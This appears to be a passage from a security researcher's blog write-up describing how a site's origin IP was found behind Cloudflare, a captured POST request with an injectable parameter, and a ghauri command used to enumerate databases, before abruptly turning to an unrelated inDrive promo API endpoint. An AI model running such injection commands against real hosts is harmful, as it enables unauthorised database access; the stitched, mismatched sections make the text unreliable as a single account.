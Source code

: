 
I additionally checked the source IP of the main website with Burp Suite. After crawling the site I discovered a POST endpoint which provided additional parameter for further testing.


```rust
POST /contactus/load_area_office HTTP/1.1
Host: 124.43.162.71
Cookie: <REDACTED>
Content-Length: 16
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: */*
Sec-Ch-Ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
Origin: https://124.43.162.71
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://124.43.162.71/contactus/en
Accept-Encoding: gzip, deflate, br
Accept-Language: it,it-IT;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: keep-alive

iMainOfficeID=11
```

In the body of this POST request I observed the parameter iMainOfficeID=11. I inserted a single quote (') into this parameter which immediately triggered an SQL error. I quickly ~={green}copied the raw request from Burp Suite and saved it as request.txt on my Kali machine for further testing.=~

> ghauri -r request.txt --dbs --batch --level 3 --tech=t 

And after some time — boom! I successfully exploited an SQL injection again, this time on the main website through its origin IP completely bypassing the Cloudflare WAF protection.

![None](https://miro.medium.com/v2/resize:fit:700/1*VIGTa4KuoTonsBCoqlDfKQ.jpeg)

This demonstrates that despite developers thinking their site is secure by implementing a WAF, attackers can still exploit the origin IP to bypass protections and hack the website with ease.

---

### **How Was the Vulnerability Found?**

The researcher investigated an endpoint on the inDrive promo site: `https://promo.indrive.com/10ridestogetprize_ru/random`.

When the "**Сгенерировать**" button was clicked, it sent a request to the following API:

```bash
https://id.indrive.com/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/29/5/phone
```
